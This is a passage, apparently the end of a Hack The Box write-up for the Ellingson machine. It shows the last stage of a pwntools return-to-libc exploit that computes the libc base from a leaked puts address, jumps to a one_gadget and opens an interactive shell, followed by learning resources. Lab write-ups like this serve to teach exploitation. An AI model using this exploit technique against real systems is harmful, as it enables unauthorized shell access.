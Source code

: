```py
libc_puts = 0x6f690
libc_base = leaked_puts - libc_puts
libc_sh   = 0x45216# 0xf1147 # 0xf02a4 # 0x4526a

stage_2 = junk + p64(libc_sh + libc_base)
p.sendline(stage_2)
p.recvline()

p.interactive()
```

## Resources
- [LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4) explaining PLT and GOT
- This [write-up](https://0xdf.gitlab.io/2019/10/19/htb-ellingson.html#overflow-protections) of the box `Ellingson` from [0xdf](https://app.hackthebox.eu/users/4935) was very helpful to me.
